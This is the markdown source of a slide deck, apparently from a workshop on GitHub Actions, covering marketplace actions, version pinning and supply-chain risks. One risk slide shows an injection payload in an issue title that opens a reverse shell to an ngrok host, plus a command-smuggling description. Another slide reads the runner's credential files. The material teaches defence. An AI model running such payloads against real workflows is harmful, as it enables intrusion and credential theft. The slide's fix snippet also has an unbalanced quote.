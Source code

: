 <!-- .slide: -->
# Marketplace
## 👉 [How to use](https://github.com/marketplace?type=actions)

![float-left w-800](./assets/images/githubsearch.png)

![float-right w-800](./assets/images/githubaction_marketplace_action.png)

Notes: 
Node ou Docker
Demo direct sur la marketplace

Gaetan

##==##
<!-- .slide: class="with-code" -->

# Use a GitHub Action from the marketplace

## Using versioned actions

```yaml[]
steps:
  # Reference a specific commit
  - uses: actions/checkout@a81bbbf8298c0fa03ea29cdc473d45769f953675
    
  # Reference a specific version
  - uses: actions/checkout@v3.2.0
    
  # Reference the major version of a release
  - uses: actions/checkout@v3
    
  # Reference a branch
  - uses: actions/checkout@main
```

##==##
<!-- .slide: class="with-code" -->

# Use a GitHub Action from the marketplace


### Inputs

```yaml[]
- name: Inject slug/short variables
  uses: rlespinasse/github-slug-action@v4
  with:
    short-length: 8
    prefix: CI_
```

### Outputs

```yaml[]
- name : setup node
  id: my-id
  uses: actions/setup-node@v3
  with:
    node-version: '14'
- name: run test
  shell: bash
  run: |
    echo ${{ steps.my-id.outputs.node-version }}
```

Notes:

Gaetan

Reference in docker hub
from local folder (.github/action)

##==##
<!-- .slide: -->
# Useful actions

* 👉 [**actions/checkout**](https://github.com/marketplace/actions/checkout)

  * allows to check out a repository 
  * github_token, ref, depth, path, ... customization

* 👉 [**actions/setup**](https://github.com/marketplace?type=actions&query=setup+)

  * allows to install a tool
  * provided by GitHub and others
  * setup-java, setup-go, setup-node, setup-terraform, ....

* 👉 [**actions/dependency-review-action**](https://github.com/marketplace/actions/dependency-review)
  * scans pull requests for dependency changes and raises an error if vulnerabilities are found.

Notes:

Gaetan

##==##
<!-- .slide: -->

# Risk

* Credential stealing
  * Opportunistic
  * Intentional
* Any maintainer can update a branch or a tag
* Runner credential stealing 

Notes:
Opportunistic - sensitive information is accidentally output to the log and an attacker finds it and uses it
Intentional - an attacker is able to insert a program into your workflow that steals credentials and sends them to the attacker
Use SHA-1 instead of version

Thibauld

##==##
<!-- .slide: class="with-code" -->
# Risk
## Example

* Step of our GitHub Actions

```yaml[]
- run: |
    echo "ISSUE TITLE: ${{github.event.issue.title}}"
    ISSUE_DESCRIPTION="${{github.event.issue.body}}"
```

* Simple issue name that trigger our Action

  * Title => ```New title" && bash -i >& /dev/tcp/8.tcp.ngrok.io/15063 0>&1 && echo "```
  * Description => `a"; ls $GITHUB_WORKSPACE"`

* Let's fix it :

```yaml[]
- env:
    TITLE: ${{ github.event.pull_request.title }}
    DESCRIPTION: ${{github.event.issue.body}}
  run: |
    echo "ISSUE TITLE: "$TITLE"
    echo "ISSUE DESCRIPTION: $DESCRIPTION"
```

Notes:

ngrok to make a backdoor

Thibauld

##==##
<!-- .slide: class="with-code" -->
# Risk
## Example

* Credential 

```yaml[]
$ cat /home/runner/runners/2.287.1/.credentials
{"data":{"token":"REDACTED"},"scheme":"OAuthAccessToken"}
```

* Runner's data 

```yaml[]
$ cat /home/runner/runners/2.287.1/.runner
{
  "AgentId": "1",
  "AgentName": "Hosted Agent",
  "PoolId": "2",
  "ServerUrl": "https://pipelines.actions.githubusercontent.com/REDACTED/",
  "SkipSessionRecover": "True",
  "IsHostedServer": "True",
  "workFolder": "_work",
  "WorkFolder": "/home/runner/work",
  "MonitorSocketAddress": "127.0.0.1:49100"
}
```

Notes:

Thibauld
